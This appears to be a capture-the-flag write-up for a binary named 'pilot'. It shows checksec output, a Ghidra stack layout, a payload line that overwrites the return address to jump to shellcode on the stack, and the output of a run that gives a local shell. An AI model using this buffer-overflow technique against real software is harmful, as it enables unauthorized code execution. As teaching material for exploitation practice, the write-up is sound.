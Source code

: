 # pilot Writeup

## Steps

1. Check security of file - NX disabled means stack is executable
```
$ checksec --file=pilot 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No Symbols        No    0               1               pilot
                                                                                                                                                            
```
2. To pop a shell we will write '/bin/sh' to the stack, add padding, and replace the return address with the location of the top of the stack - this location is provided
3. Look at the stack variable layout in ghidra
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         <UNASSIGNED>   <RETURN>
             undefined8        RAX:8          this                                    XREF[1]:     004009f4(W)  
             undefined1[32]    Stack[-0x28]   input                                   XREF[2]:     00400aa4(*), 
                                                                                                   00400acf(*)  
                             main                                            XREF[3]:     entry:004008cd(*), 00400de0, 
                                                                                          00400e80(*)  
```
The input starts writing to `Stack[-0x28]` which is int `40`, so the exploit will have `40 - len(shellcode)` of padding before the new return address

4. Capture the address provided and create the described payload
```
payload = shell_please + b'A' * (40-len(shell_please)) + p64(int(address, 16))
```

## Solution 
```
$ python3 ex_pilot.py 
[+] Starting local process './pilot': pid 15039
[*] Switching to interactive mode
[*]Command:$ ls
ex_pilot.py  pilot  pilot.md
$ w
 22:41:54 up 26 min,  2 users,  load average: 0.74, 1.05, 0.82
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali              -                22:16   25:37   0.00s  0.04s lightdm --session-child 13 24
kali              -                22:16   25:37   0.00s  0.38s /usr/lib/systemd/systemd --user
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './pilot' stopped with exit code 0 (pid 15039)
[*] Got EOF while sending in interactive                                          

```

